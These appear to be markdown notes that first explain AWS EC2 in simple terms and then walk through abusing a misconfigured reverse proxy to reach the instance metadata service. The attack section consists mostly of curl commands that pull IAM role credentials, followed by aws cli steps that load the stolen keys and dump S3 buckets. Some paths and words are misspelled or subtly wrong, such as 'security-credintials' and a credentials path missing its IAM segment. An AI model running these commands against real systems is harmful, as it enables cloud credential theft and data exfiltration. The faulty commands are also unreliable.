 # What?

Amazon Elastic Compute Cloud (EC2) is like having your very own computer that you can rent and use whenever you need it. Let me explain it to you in simple terms:

Imagine that you have a computer at home that you use for doing your homework, playing games, and watching videos. But sometimes, you need a more powerful computer to do things like run a program that requires a lot of processing power or store a large amount of data.

That’s where EC2 comes in. It allows you to rent a virtual computer, called an instance, from Amazon’s cloud infrastructure. You can choose the size and specifications of the instance you need, just like you would choose a new computer to buy.

Once you rent an instance, you can access it remotely from your own computer and use it just like you would use your own computer. You can install software, store files, and run programs on the instance. When you’re done using it, you can stop the instance and you’ll only pay for the time you used it.

For example, if you’re a video game developer, you might use EC2 to rent a powerful instance that you can use to test your game on different platforms. Or if you’re a data scientist, you might use EC2 to rent an instance that has a lot of memory and processing power to run complex data analysis algorithms.

So, to summarize, EC2 is like having your very own computer that you can rent and use whenever you need it, without having to buy a new computer every time you need more processing power or storage. You can access it remotely and use it just like your own computer, and you only pay for the time you use it.

# Instance Metadata Service (IMDS)

- Metadata: Data about data
- IMDS: Data about your instance that you can use to configure and manage the running instance

## Misconfigured reverse proxy

> **Every has access to it own MDS using curl command**

```bash
curl http://<public-ip-address>/latest -H "Host: 169.254.169.254"
```

### Enumerating IMDS

- IAM: Identity access management
- Instance Credential: Information about roles, assign policies, access key and token key.
- User Data: Commands provide at launch time in userdata field. Example Python or Apache server

Exploit the S3 buckets content using stolen EC2 instance profile.

```bash
# Get metadata
curl http://<public-ip-address>/latest/meta-data -H "Host: 169.254.169.254"
# IAM metadata
curl http://<public-ip-address>/latest/meta-data/iam -H "Host: 169.254.169.254"

# Security credential
curl http://<public-ip-address>/latest/meta-data/security-credentials/ -H "Host: 169.254.169.254"
#### List the role name ####
curl http://<public-ip-address>/latest/meta-data/security-credintials/<rolename> -H "Host: 169.254.169.254"
# We will got the info like AccessKeyId, SecretAccessKey and Token.

# ==========================
# Then we can use aws cli to retrieve more information
aws configure --profile <profile_name> # Put any profile name that you want
# Fill the AccessKeyId, SecretAccessKey. (Leave the empty for all left)

# Add the sesstion token into ~/.aws/credential
# As: aws_sesstion_token = xxxxxxx

# List the s3 bucket
aws s3 ls --profile <profile_name>
```

- Dump S3 bucket

```bash
aws s3 sync s3://<bucket_name> <local_path_to_save> --profile <profile_name>
```

